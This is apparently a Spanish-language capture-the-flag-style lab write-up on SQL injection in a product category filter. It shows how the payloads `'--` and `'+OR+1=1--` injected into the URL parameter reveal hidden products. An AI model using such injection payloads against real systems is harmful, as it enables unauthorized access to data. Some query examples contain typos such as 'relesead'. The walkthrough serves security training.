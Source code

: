 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)

---

Tenemos un sitio web para realizar compras de productos:
![image](https://github.com/user-attachments/assets/e7f1d850-f540-4cfc-9495-0bae72bb061e)

Podemos buscar productos y realizar filtros según su categoría, probamos filtrar por `Gifts`:
![image](https://github.com/user-attachments/assets/a82cdd53-a451-41de-8bbc-b3da6aedd74f)

Nosotros sabemos que la consulta por detrás es la siguiente:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Y sabemos que el valor de `category` lo toma del parámetro de la url `?category=Gifts`.

Procedemos a intentar romper la consulta, añadiendo el caracter `'`, lo cual cerraría la consulta de la siguiente forma:
```sql
SELECT * FROM products WHERE category = 'Gifts'' AND relesead = 1
```
La última parte de la consulta (`' AND relesead = 1`) queda por fuera y podría causar un error de sintaxis:
![image](https://github.com/user-attachments/assets/b8469c86-9f5b-422f-9eda-9ed3f7cc83d5)

Este es el primer indicador de que podría haber inyección SQL.


Lo que hacemos ahora es añadir el siguiente payload: `'--`
Por lo cual la consulta completa sería:
```sql
SELECT * FROM products WHERE category = 'Gifts''-- AND relesead = 1
```
Que es lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts'
```


![image](https://github.com/user-attachments/assets/4540d5d6-30f7-45fe-8550-40f44392e647)

Como vemos se realizó la consulta, lo cual confirmamos que hay inyección SQL.

Procedemos a resolver el lab inyectando el siguiente payload: `'+OR+1=1--`

Por lo que la cadena de consulta quedaría:

```sql
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1-- AND relesead = 1
```
Que sería lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1
```

Lo cual se traduce en `mostrame todas las filas de la tabla products donde la categoria es Gifts o donde 1=1`. Por lo que mostrará todos los productos:

![image](https://github.com/user-attachments/assets/acec4257-02e1-4607-a0c5-b9b481997939)




